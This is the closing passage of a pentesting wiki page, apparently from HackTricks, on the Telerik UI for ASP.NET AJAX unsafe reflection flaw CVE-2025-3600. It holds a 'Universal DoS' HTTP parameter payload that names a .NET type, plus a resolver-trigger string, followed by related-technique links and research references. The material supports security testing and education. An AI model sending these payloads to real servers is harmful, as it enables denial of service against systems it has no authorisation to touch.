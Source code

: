 - Universal DoS:

```http
...&prtype=System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper,+System.Management.Automation,+Version%3d3.0.0.0,+Culture%3dneutral,+PublicKeyToken%3d31bf3856ad364e35
```

- Trigger resolver:

```
This.Class.Does.Not.Exist, watchTowr
```

## Related techniques

- IIS post-exploitation, .NET key extraction, and in‑memory loaders:

{{#ref}}
iis-internet-information-services.md
{{#endref}}

- ASP.NET ViewState deserialization and machineKey abuses:

{{#ref}}
../../pentesting-web/deserialization/exploiting-__viewstate-parameter.md
{{#endref}}

## References

- [watchTowr labs – More than DoS: Progress Telerik UI for ASP.NET AJAX Unsafe Reflection (CVE-2025-3600)](https://labs.watchtowr.com/more-than-dos-progress-telerik-ui-for-asp-net-ajax-unsafe-reflection-cve-2025-3600/)
- [Black Hat USA 2019 – SSO Wars: The Token Menace (Mirosh & Muñoz) – DoS gadget background](https://i.blackhat.com/USA-19/Wednesday/us-19-Munoz-SSO-Wars-The-Token-Menace-wp.pdf)
- [ZDI – Abusing arbitrary file deletes to escalate privilege](https://www.zerodayinitiative.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-and-other-great-tricks)
- [watchTowr – Is “B” for Backdoor? (Sitecore chain CVE-2025-34509)](https://labs.watchtowr.com/is-b-for-backdoor-pre-auth-rce-chain-in-sitecore-experience-platform/)

{{#include ../../banners/hacktricks-training.md}}